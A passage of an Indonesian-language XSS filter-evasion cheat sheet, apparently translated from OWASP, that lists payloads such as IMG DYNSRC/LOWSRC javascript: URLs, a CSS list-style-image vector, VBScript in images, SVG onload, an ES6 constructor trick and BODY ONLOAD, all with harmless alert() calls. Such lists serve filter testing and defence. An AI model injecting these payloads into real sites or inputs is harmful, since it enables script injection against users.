 #### IMG Dynsrc

```html
<IMG DYNSRC="javascript:alert('XSS')">
```

#### IMG Lowsrc

```html
<IMG LOWSRC="javascript:alert('XSS')">
```

### Gambar bergaya daftar

Serangan misterius ini berfokus pada penyematan gambar untuk daftar berpoin. Serangan ini hanya akan berfungsi di mesin rendering IE karena adanya perintah JavaScript. Bukan vektor XSS yang sangat berguna:

```html
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>
```

### VBscript dalam Gambar

```html
<IMG SRC='vbscript:msgbox("XSS")'>
```

### Tag Objek SVG

```js
<svg/onload=alert('XSS')>
```

### ECMAScript 6

```js
Set.constructor`alert\x28document.domain\x29
```

### Tag BODY

Serangan ini tidak memerlukan penggunaan varian `javascript:` atau `<SCRIPT...` untuk melakukan serangan XSS. Dan Crowley telah mencatat bahwa Anda dapat meletakkan spasi sebelum tanda sama dengan (`onload=` != `onload =`):

```html
<BODY ONLOAD=alert('XSS')>
```

#### Serangan Menggunakan Penangan Peristiwa

Serangan dengan tag BODY dapat dimodifikasi untuk digunakan dalam serangan XSS yang serupa dengan yang di atas (ini adalah daftar terlengkap di internet, pada saat penulisan ini). Terima kasih kepada Rene Ledosquet untuk pembaruan HTML+TIME.

[Referensi Web Dottoro](http://help.dottoro.com/) juga memiliki [daftar peristiwa dalam JavaScript](http://help.dottoro.com/ljfvvdnm.php) yang bagus.
